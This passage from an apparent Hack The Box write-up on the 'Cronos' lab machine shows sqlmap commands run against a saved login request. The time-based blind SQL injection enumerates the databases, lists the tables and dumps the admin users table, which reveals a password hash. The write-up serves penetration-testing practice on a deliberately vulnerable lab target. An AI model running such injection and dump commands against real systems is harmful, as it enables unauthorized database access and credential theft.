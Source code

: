 ```bash
[14:39:34] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[14:39:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[14:39:44] [INFO] retrieved: 
[14:39:49] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[14:40:46] [INFO] retrieved: admin
available databases [2]:
[*] admin
[*] information_schema

[14:41:01] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/admin.cronos.htb'

[*] ending @ 14:41:01 /2022-04-22/
```

Now we know that there are 2 databases - `admin` and `information_schema`.

Let’s take a look at the tables inside the database `admin`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin --tables --batch
...
[14:43:43] [INFO] adjusting time delay to 1 second due to good response times
users
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```

Yay, we found a table `users`! Let’s dump all the data.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin -T users --dump --batch
...
[14:48:44] [WARNING] no clear password(s) found                        
Database: admin
Table: users
[1 entry]
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 4f5fffa7b2340178a716e3832451e058 | admin    |
+----+----------------------------------+----------+
...
```
